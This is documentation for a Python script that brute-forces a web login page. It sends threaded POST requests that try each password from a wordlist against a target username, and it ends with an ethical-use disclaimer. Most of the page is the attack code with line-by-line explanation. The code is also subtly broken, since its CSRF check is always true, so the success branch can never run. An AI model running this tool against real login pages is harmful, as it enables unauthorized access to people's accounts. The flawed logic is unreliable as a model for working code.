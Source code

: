 # BruteForcing Documentation
This Python code attempts to brute-force a login page by iterating through a list of passwords, trying each one to gain access to a web service using HTTP POST requests. It uses threading to attempt multiple passwords in parallel, improving speed.

## Code Documentation
### Imports:

'''
Code kopieren
import threading
import requests
import time
import sys
'''

- threading: Enables multi-threaded execution, allowing multiple password attempts concurrently.
- requests: Handles HTTP requests to the login page.
- time: Adds delays for UX elements like displaying the banner.
- sys: Allows control over system-level operations, including output and script termination.
### BruteForcing Class
The BruteForcing class is responsible for handling the login attempts and detecting successful login credentials.

Attributes:

- url: The target URL for login attempts.
- username: Username to be tested against each password.
- error_message: Message displayed by the server upon an unsuccessful login attempt.

Initialization Method:

'''
def __init__(self, url, username, error_message):
    self.url = url
    self.username = username
    self.error_message = error_message

    for run in banner:
        sys.stdout.write(run)
        sys.stdout.flush()
        time.sleep(0.02)
'''

- Initializes the class with url, username, and error_message.
- Displays a banner animation by printing each character sequentially.

crack Method:

'''
def crack(self, password):
    data_dict = {"LogInID": self.username, "Password": password, "Log In": "submit"}
    response = requests.post(self.url, data=data_dict)
    if self.error_message in str(response.content):
        return False
    elif "CSRF" or "csrf" in str(response.content):
        print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
        sys.exit()
    else:
        print("Username: ---> " + self.username)
        print("Password: ---> " + password)
        return True
'''

- Sends a POST request to the URL using requests.post with username and password.
- Checks for error_message in the response content to identify failed attempts.
- If "CSRF" appears in the response, the function assumes the site uses CSRF protection, exits, and halts the attack.
- On successful login, displays the valid credentials and stops further attempts.

### Helper Function: crack_passwords

'''
def crack_passwords(passwords, cracker):
    count = 0
    for password in passwords:
        count += 1
        password = password.strip()
        print("Trying Password: {} Time For => {}".format(count, password))
        if cracker.crack(password):
            return
'''

- Iterates over a list of passwords, incrementing a counter to track attempts.
- Passes each password to the crack method to test if it’s correct.
- Stops iterating when a successful login attempt is found.

### Main Function: main

'''
def main():
    url = input("Enter Target Url: ")
    username = input("Enter Target Username: ")
    error = input("Enter Wrong Password Error Message: ")
    cracker = BruteForcing(url, username, error)

    with open("passwords.txt", "r") as f:
        chunk_size = 1000
        while True:
            passwords = f.readlines(chunk_size)
            if not passwords:
                break
            t = threading.Thread(target=crack_passwords, args=(passwords, cracker))
            t.start()
'''

- url: The target URL for the brute-force attack.
- username: Username to test with each password.
- error: Error message indicating a failed login attempt.
- Initializes an instance of BruteForcing with user inputs.
- Reads the passwords.txt file in chunks, where each chunk represents a batch of passwords to test.
- Creates and starts a new thread for each password chunk to maximize parallel execution.

### Execution Block

'''
if __name__ == '__main__':
    banner = """ 
                       Checking the Server !!        
        [+]█████████████████████████████████████████████████[+]
"""
    print(banner)
    main()
'''

- Displays a banner before starting the brute-forcing attempts.
- Calls the main function to begin execution.

## Note on Ethical Use
IMPORTANT: Brute-force attacks are illegal and unethical when conducted without explicit permission. The code here is for educational purposes, to understand the mechanics of threaded brute-force attack logic. Always obtain permission from system owners before attempting any security tests.

For legitimate security testing, consider alternatives like password managers or dedicated penetration testing frameworks such as OWASP ZAP or Burp Suite.
